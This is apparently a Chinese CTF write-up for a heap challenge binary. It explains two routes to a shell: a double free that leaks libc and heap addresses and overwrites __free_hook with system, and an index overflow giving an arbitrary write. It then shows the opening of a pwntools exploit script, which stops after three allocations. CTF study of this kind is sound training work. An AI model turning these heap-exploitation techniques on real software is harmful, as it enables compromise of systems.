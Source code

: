 

最终找到两种方法来getshell：

1.通过overlapped chunk，unsorted bin来泄露libc 泄露heap。在刚开始输入name时输入`/bin/sh`和一个合适的size用于后面伪造chunk。由于有heapbase，便可以通过double free来利用前面伪造的size在heapbase附近伪造chunk，从而覆写到`0x0000556506513040`这个指针,将其改为__free_hook指针。这样`leave`时就可以修改__free_hook为system，接着的free便会调用`system('/bin/sh')`从而getshell。



2.程序在add功能处存在一个下标溢出。可以导致新建chunk覆盖掉原本的`ptr`

![5d00ccc406b1732200](https://i.loli.net/2019/06/12/5d00ccc406b1732200.png)

如图程序输入name时存储的ptr指针就在`list`下面，由于可以被新建得chunk给覆盖掉。

覆盖掉之后，在偏移`0x20`的位置写入我们想要写值的指针，当程序`leave`时就会造成一次任意写。同样的这里可以写`__free_hook`为`system`地址配合`/bin/sh`来getshell



double free exp:

```python
#!/usr/bin/env python
# -*- coding=utf8 -*-
"""
# Author: le3d1ng
# Created Time : 2019年06月01日 星期六 09时43分14秒
# File Name: exp.py
# Description:
"""
from pwn import *

io = process('./pwn')
libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')

context.log_level = 'debug'
context.terminal = ['terminator' , '-x' , 'sh' , '-c']

def debug():
	gdb.attach(io)
	io.interactive()


def add(l,c):
	io.sendlineafter('choice> ','1')
	io.sendafter('length> ',str(l))
	io.sendlineafter('ontent> ',c)

def show(idx):
	io.sendlineafter('choice> ','2')
	io.sendafter('index> ',str(idx))

def dele(idx):
        io.sendlineafter('choice> ','3')
        io.sendafter('index> ',str(idx))

def bye(c):
	io.sendlineafter("choice> ",'4')
	io.sendlineafter('remarks> ',c)

io.recv()
io.sendline('/bin/sh||        \x51')

add(0xf8,'0')
#debug()
add(0xf8,'1')
add(0xf8,'2')
```